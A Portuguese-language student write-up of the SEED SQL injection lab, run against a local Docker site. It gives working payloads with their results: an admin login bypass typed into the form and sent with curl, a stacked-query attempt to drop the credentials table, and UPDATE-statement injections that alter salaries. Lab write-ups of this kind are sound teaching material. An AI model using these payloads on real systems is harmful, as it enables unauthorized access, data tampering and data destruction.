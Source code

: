 # SQL Injection Attack

## Setup

```bash
sudo nano etc/hosts # colocar '10.9.0.5 www.seed-server.com'
$ dcbuild # docker-compose build
$ dcup # docker-compose up
$ docksh f3 # Abrir uma shell no MySQL container
```

## Tasks

### Task 1: Get Familiar with SQL Statements

```bash
$ mysql -u root -pdees
$ use sqllab_users;
```

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```

![Task 1](../img/lab8task1.png)

###  Task 2: SQL Injection Attack on SELECT Statement

#### Task 2.1 - Login in adminstrator mode from webpage

Aceder ao site "www.seed-server.com".

A query é frágil neste segmento

```sql
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
```

A password é hashed mas o nome não. Basta colocar admin e comentar a segunda parte, obtendo assim acesso às credenciais de todos os utilizadores

```note
username: admin' #
```

![Task 2 a](../img/lab8task2a.png)

#### Task 2.2 - Login in adminstrator mode from command line

Usamos o mesmo comando mas através de um pedido GET. Um exemplo seria:

```bash
curl "www.seed-server.com/unsafe_home.php?username=USER&Password=PASS"
```

Com o mesmo input da secção anterior, cifrado (%27 é plica, %23 é o hastag).

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Com o comando anterior obtivemos o código HTML de toda a página que continha os dados pessoais dos utilizadores

![Task 2 b](../img/lab8task2b.png)

#### Task 2.3 - Append a new SQL statement

Podemos adicionar novos comandos SQL usando ";". Para isso, modificamos no nosso input malicioso inicial para que fizesse um side-effect. Por exemplo, eliminar a tabela de credenciais:

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```

No entanto deu erro. Segundo [esta fonte](https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php), a extensão de MySQL utilizada pelo PHP do servidor tem uma proteção que impede a execução de múltiplas queries.

![Task 2 c](../img/lab8task2c.png)


### Task 3: SQL Injection Attack on UPDATE Statement

#### Task 3.1 - Modify your own salary

Após dar login com a alice, 11, e na parte de edit profile. Apesar de password ser hash, o phone number está desprotegido. Usando a mesma técnica:. Explicar plica.

```sql
933667378',Salary='9999999
```

Bingo:

![Task 3 a](../img/lab8task3a.png)

#### Task 3.2 - Modify other people’ salary

Parecido com o anterior, mas com uma where clause antes do final. No final comentar tudo

```sql
933667378',Salary='-9999999' WHERE Name='Boby'#
```

Bingo:

![Task 3 b](../img/lab8task3b.png)